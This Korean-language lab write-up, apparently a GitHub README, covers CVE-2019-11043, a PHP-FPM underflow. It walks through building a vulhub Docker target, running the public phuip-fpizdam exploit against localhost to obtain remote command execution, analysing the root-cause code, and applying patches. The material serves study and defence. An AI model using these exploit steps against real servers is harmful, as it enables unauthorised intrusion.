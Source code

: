 # CVE-2019-11043

웹서버와 PHP를 연결해주는 기능인 PHP-FPM 에서 취약점 발생
<br>

## 0. 취약한 환경 버전

> PHP FPM 7.1.x ~ 7.1.33 

> PHP FPM 7.2.x ~ 7.2.24

> PHP FPM 7.3.x ~ 7.3.11

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **golang**

<br>

> CVE-2019-11043 폴더 생성

```
mkdir CVE-2019-11043
```

<br>

> CVE-2019-11403 폴더 내 도커 파일 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/default.conf
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/docker-compose.yml
```

<br>

> CVE-2019-11043에 하위 폴더 www 생성

```
CVE-2019-11043$ mkdir www
```

<br>

> www폴더 내 인덱스 페이지 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/www/index.php
```

<br>

> 폴더 내 파일 확인

![1](https://user-images.githubusercontent.com/89399749/144745932-4312a5ca-5e6d-4a93-9be1-08113b5d1b71.png)

{이미지}

<br>

> CVE-2019-11043 폴더에서 컨테이너 생성 및 백그라운드 실행

```
docker-compose up -d
```

![2](https://user-images.githubusercontent.com/89399749/144745941-8b64ec89-11ae-4093-897f-1b031b490eb5.png)

{이미지2}


![3](https://user-images.githubusercontent.com/89399749/144745945-c45ceb58-b102-4fb7-ab93-d72718b40d27.png)

{이미지3}



> 인덱스 페이지 접속 확인

![4](https://user-images.githubusercontent.com/89399749/144745961-46b75f47-f859-4a5b-8b05-7f0e9aa6c8bb.png)

{이미지4}

<br>

## 2. PoC

일반 사용자로 전환

<br>

> golang 설치

```
apt-get install golang
```
<br>


> phuip-fpizdam 다운로드

```
go get github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
```
![5](https://user-images.githubusercontent.com/89399749/144745958-7a2c1862-836f-4e7f-829c-2f80f3575a5c.png)


{이미지5}

<br>

> exploit 실행

```
./phuip-fpizdam http://localhost:8080/index.php
```

![6](https://user-images.githubusercontent.com/89399749/144745965-ee18a087-155a-4e45-ad89-93bb11e874b0.png)

{이미지6}

<br>

> 원격 명령어 실행

![7](https://user-images.githubusercontent.com/89399749/144745970-5af4bfa2-5661-4622-8279-3e40ab9d56e3.png)

{이미지7}

![8](https://user-images.githubusercontent.com/89399749/144745976-a785d5c8-b495-4c53-9394-365c1649e27d.png)


{이미지8}

<br>

## 3. 원인 분석

> php 소스코드 중 path_info에 env_path_info의 산술 연산된 값을 넣는 부분이 있는데, 해당 부분에서 연산된 값에 대한 검증이 없어 취약점 발생

```php
if (apache_was_here) {
 path_info = script_path_translated + ptlen;
 tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
   } else {
     path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
     tflag = path_info && (orig_path_info != path_info);
   }
```

<br>

> 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, pos에 0이 들어가면, Underflow가 발생

```c++
typedef struct _fcgi_data_seg {
    char                  *pos;
    char                  *end;
    struct _fcgi_data_seg *next;
    char                   data[1];
} fcgi_data_seg;
```

<br>

> 타겟을 대상으로 다수의 요청이 발생되어 공격자는 다수의 요청 중 길이가 맞는 요청값을 통해 취약점이 발생

![9](https://user-images.githubusercontent.com/89399749/144745979-64f03e69-3b0b-47eb-9f8a-3c7b67d688f1.jpg)

{이미지9}

<br>

## 4. 대응 방안

> 패치 버전 7.3.11 , 7.2.24 업그레이드

![10](https://user-images.githubusercontent.com/89399749/144745982-77737cd2-8de1-4a85-91b3-9deb176bf074.png)

{이미지10}

<br>

>  try_files 포함 혹은 if문을 통한 검증 코드 구현

## 참조

https://qiita.com/shimizukawasaki/items/39d68a7c658dfa50263d

https://github.com/neex/phuip-fpizdam

https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/

https://saltlee.tistory.com/77



